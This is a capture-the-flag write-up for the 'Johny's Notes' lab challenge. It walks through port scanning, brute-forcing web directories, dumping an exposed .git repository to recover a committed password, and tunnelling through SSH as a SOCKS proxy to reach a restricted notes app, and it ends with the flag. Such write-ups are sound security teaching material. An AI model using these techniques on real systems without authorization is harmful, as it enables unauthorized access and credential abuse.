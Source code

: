 # Johny's Notes

## Challenge

Hi, TCC-CSIRT analyst,

Admin Johny is testing a new notebook to take notes, as any good administrator would. He thinks he has correctly secured the application so that only he can access it and no one else. Your task is to check if he made any security lapses.

Admin Johny uses workstation `johny-station.cypherfix.tcc`.  
The application for notes runs on `notes.cypherfix.tcc`.  
See you in the next incident!

Hint: `/usr/sbin/nologin` is a good servant but a bad master.

## Solution

### 1. Enumeration

We started by scanning both `johny-station.cypherfix.tcc` and `notes.cypherfix.tcc`:

```bash
nmap -p1-65535 johny-station.cypherfix.tcc
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -p1-65535 notes.cypherfix.tcc
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap
```

### 2. Inspecting Johny's Station and Notes

We used `Feroxbuster` and `Dirb` to enumerate `notes.cypherfix.tcc`, but the default wordlists did not reveal anything useful.

```bash
curl http://notes.cypherfix.tcc/
```

The site redirected to http://notes.cypherfix.tcc:8080, but TCP-wrapped protection prevented access (same as 8081).

Similarly, on Johny's station, the default Apache page was visible and standard wordlists did not yield any interesting results.

### 3. Discovering Johny's Home Directory

Using a more specific wordlist (`Apache.fuzz.txt`), we found Johny's user directory:

```bash
dirb http://johny-station.cypherfix.tcc /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt

+ http://johny-station.cypherfix.tcc/~backup (CODE:403|SIZE:292)
==> DIRECTORY: http://johny-station.cypherfix.tcc/~johny/
```

In Johny's home directory, we found a Flatnotes application with directory listing enabled: http://johny-station.cypherfix.tcc/~johny/flatnotes/
Flatnotes is an open-source note-taking application. Its GitHub repository is available here: https://github.com/dullage/flatnotes

However, no hidden files were visible. We checked for `.git`, which was available: http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/

### 4. Extracting the Repository

The last commit message in the git repository looked interesting:

```bash
curl http://johny-station.cypherfix.tcc/~johny/flatnotes/.git/COMMIT_EDITMSG
User password for http://notes.cypherfix.tcc:8080
```

We used git-dumper to retrieve the repository:

```bash
python3 git_dumper.py http://johny-station.cypherfix.tcc/~johny/flatnotes/ flatnotes
```

Inspecting the repository revealed a change in the `README.md`:

```
   -e "PGID=1000" \
   -e "FLATNOTES_AUTH_TYPE=password" \
   -e "FLATNOTES_USERNAME=user" \
-  -e "FLATNOTES_PASSWORD=changeMe!" \
+  -e "FLATNOTES_PASSWORD=gojohnygo" \
   -e "FLATNOTES_SECRET_KEY=aLongRandomSeriesOfCharacters" \
   -v "$(pwd)/data:/data" \
   -p "8080:8080" \
```

This provided us with the password `gojohnygo`.

### 5. Bypassing Access Restrictions

We recalled the hint "`/usr/sbin/nologin` is a good servant but a bad master". Since SSH was open on Johny's station, we created a SOCKS proxy:

```bash
ssh -D 1080 johny@10.99.24.32 -N
```

Using the password `gojohnygo`, we successfully connected.

Next, we used `Firefox` with the SOCKS proxy set to `127.0.0.1:1080` and accessed the notes application at http://notes.cypherfix.tcc:8080/.

### 6. Retrieving the Flag

We logged in using the credentials:

- Username: `user`
- Password: `gojohnygo`

The flag was located at: http://notes.cypherfix.tcc:8080/note/flag

## Flag

```
FLAG{VfCK-Hlp4-cQl8-p0UM}
```
